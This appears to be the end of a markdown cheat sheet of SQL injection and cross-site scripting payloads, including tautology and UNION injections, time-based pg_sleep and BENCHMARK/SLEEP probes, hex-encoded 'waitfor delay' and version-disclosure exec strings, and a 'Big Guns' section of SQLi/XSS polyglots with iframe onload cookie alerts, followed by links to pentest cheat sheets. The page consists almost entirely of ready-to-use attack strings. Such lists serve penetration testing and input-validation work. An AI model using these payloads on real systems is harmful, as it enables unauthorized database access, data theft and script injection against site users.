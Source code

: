 ```
 or 1 in (select @@version)--
sqlvuln;
 union select * from users where login = char ...
x' or 1=1 or 'x'='y
28 %
â or 3=3 --
@variable
 or '1'='1'--
"a"" or 1=1--"
%2A%7C
" or 0=0 --
")) or pg_sleep(__TIME__)--

declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000270030003A0030003A0031003000270000 exec(@q)
declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s) 
declare @q nvarchar (200) 0x730065006c00650063007400200040004000760065007200730069006f006e00 exec(@q)
declare @s varchar (200) select @s = 0x73656c65637420404076657273696f6e exec(@s)
```

### Dangerous Requests (Big Guns)
```
' OR '' = '

">/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/<iframe/>

IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/

/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/(/* */oNcliCk=alert() )/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*////*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/</style>\x3ciframe/<iframe onload="alert(document.cookies)//">\x3e--!><iframe src="">/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/<iframe/>

/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/(/* */oNcliCk=alert() )/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*////*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/</style>\x3ciframe/<iframe onload="alert(document.cookies)//">\x3e--!><iframe src="

/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/(/* */oNcliCk=alert() )//</style>\x3ciframe/<iframe onload="alert(document.cookies)//">\x3e--!><iframe src=""><iframe/>
```

## References & Other Resoureces
MySQL:
- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/
- http://evilsql.com/main/page2.php
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
